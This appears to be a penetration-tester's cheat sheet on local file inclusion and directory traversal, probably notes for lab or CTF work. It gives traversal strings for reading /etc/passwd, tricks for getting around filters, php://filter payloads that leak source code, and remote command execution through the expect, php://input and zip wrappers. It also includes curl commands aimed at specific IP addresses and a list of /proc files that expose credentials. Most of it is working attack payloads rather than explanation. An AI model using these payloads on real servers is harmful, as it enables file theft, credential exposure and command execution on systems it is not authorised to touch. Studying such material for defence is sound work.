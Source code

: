 # File Inclusion / Directory Traversal

[Hacktricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion)

[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)

[Blog](https://www.netspi.com/blog/technical/web-application-penetration-testing/directory-traversal-file-inclusion-proc-file-system/) The Proc File System

[Tool ](https://github.com/D35m0nd142/LFISuite)[secondtool](https://github.com/kurobeats/fimap)

## LFI

```
 file:///../../../etc/passwd
 /etc/passwd on Linux or C:\Windows\boot.ini on Windows
 #if input from parameters used as part of filenames
 we can bypass by adding /../ in the
  
 # if Blacklisting is not coded correctly
 ..././ and ....// would become ../ vice vers sa
 cat .?/.*/.?/etc/passwd.
 Bash allows for for the ? and * wildcards to be used as wildcard
 
 #On PHP versions 5.3.4 and earlier, string-based detection could be bypassed by URL encoding the payload. 
 The characters ../ can be URL encoded into %2e%2e%2f, which will bypass the filter.
```

PHP provides various wrappers, which can be used for easier access to files, protocols, or streams. A list of wrappers can be found [here](https://www.php.net/manual/en/wrappers.php.php). The `php://` wrapper is enabled by default and interacts with IO streams.

PHP filter to convert file contents to Base64

```
 php://filter/read=convert.base64-encode/resource=/etc/passwd
 #we can get the source code and decode it
 curl http://134.209.184.216:32391/extension/index.php?language=php://filter/read=convert.base64-encode/resource=config
```



### PHP filter to convert file contents to ROT13

```
php://filter/read=string.rot13/resource=/etc/passwd
```

### Command execution with PHP `Expect` wrapper

```
expect://id
```

#### Using PHP `Input` wrapper for command execution

```
curl -s -X POST --data "<?php system('id'); ?>" "http://134.209.184.216:30084/index.php?language=php://input"
```

### Command execution with the PHP `Zip` wrapper

```
zip://malicious.zip%23exec.php&cmd=id
```

## The Proc File System

| Directory                       | Description                                                                                                                                                                                        |
| ------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| /proc/sched\_debug              | This is usually enabled on newer systems, such as RHEL 6.  It provides information as to what process is running on which cpu.  This can be handy to get a list of processes and their PID number. |
| /proc/mounts                    | Provides a list of mounted file systems.  Can be used to determine where other interesting files might be located                                                                                  |
| /proc/net/arp                   | Shows the ARP table.  This is one way to find out IP addresses for other internal servers.                                                                                                         |
| /proc/net/route                 | Shows the routing table information.                                                                                                                                                               |
| /proc/net/tcp and /proc/net/udp | Provides a list of active connections.  Can be used to determine what ports are listening on the server                                                                                            |
| /proc/net/fib\_trie             | This is used for route caching.  This can also be used to determine local IPs, as well as gain a better understanding of the target’s networking structure                                         |
| /proc/version                   | Shows the kernel version.  This can be used to help determine the OS running and the last time it’s been fully updated.                                                                            |



| Directory            | Description                                                                                                                                                                           |
| -------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| /proc/\[PID]/cmdline | Lists everything that was used to invoke the process. This sometimes contains useful paths to configuration files as well as usernames and passwords.                                 |
| /proc/\[PID]/environ | Lists all the environment variables that were set when the process was invoked.  This also sometimes contains useful paths to configuration files as well as usernames and passwords. |
| /proc/\[PID]/cwd     | Points to the current working directory of the process.  This may be useful if you don’t know the absolute path to a configuration file.                                              |
| /proc/\[PID]/fd/\[#] | Provides access to the file descriptors being used.  In some cases this can be used to read files that are opened by a process.                                                       |
